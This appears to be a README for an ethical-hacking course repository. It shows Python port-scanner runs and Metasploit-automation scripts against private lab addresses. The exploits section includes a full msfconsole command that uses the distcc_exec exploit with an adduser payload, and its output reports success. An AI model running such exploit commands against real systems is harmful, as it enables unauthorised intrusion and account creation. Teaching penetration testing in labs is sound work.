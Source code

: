 # Pentest


## Learn Python & Ethical Hacking 

---
* <a href="Tutorial.md">Tutorial.md</a>
---
#### Mind map
* <a href="Tutorial.md">EH_2023_part_1.drawio.svg</a>

---
## Device information:

  ```shell
  ifconfig
  ```

  ```shell
  ip -c a
  ```
  
  ```shell
  arp -a
  ```
  
  Windows  
  ```shell
  ipconfig /all
  ```

---


## scripts

1. <a href="#port_scanner">Port Scanner</a>
2. <a href="#exploits_and_payloads">Exploits and Payloads</a>



---

1. **Port Scanner** <a name="port_scanner"></a>  

    ```pycon
    cd 1_port_scan
    ```
    
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_1.py -t 10.0.2.4 -p 100
    
    ```
    
    Some servers may consider such requests as a hacking attempt and block your IP address:
    ```pycon
    ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/1_port_scan]
    └─$ python3 port_scanner_2.py -t 10.0.2.1,10.0.2.4 -p 100
    
    ```

2. **Exploits and Payloads** <a name="exploits_and_payloads"></a>  

    ```pycon
    cd 2_exploits_and_payloads
    ```
   
   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ sudo python service_info_3.py 
   [sudo] пароль для kali: 
   {'PORT': '21/tcp', 'STATE': 'open', 'SERVICE': 'ftp', 'VERSION': 'vsftpd 2.3.4'}
   ```

   ```pycon
   ┌──(venv_EH)─(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python3 get_exploits_MSF.py
   ```
   
   ```pycon
   ┌──(kali㉿kali)-[~/PycharmProjects/Complete_EH_Bootcamp_Zero_to_Mastery/2_exploits_and_payloads]
   └─$ python MSF_exploits_and_payloads_1.py
   
   Trying exploit:  exploit/unix/misc/distcc_exec
   Trying payload:  payload/cmd/unix/adduser
   Trying command:  msfconsole -q -x "use exploit/unix/misc/distcc_exec; set payload payload/cmd/unix/adduser; set RHOSTS 10.0.2.4; set RPORT 3632; set LHOST 10.0.2.5; check; exit"
   [+] Successful exploitation:  exploit/unix/misc/distcc_exec, Payload: payload/cmd/unix/adduser
   - - - - - - - - - - - - - - - - - - - - 
   ```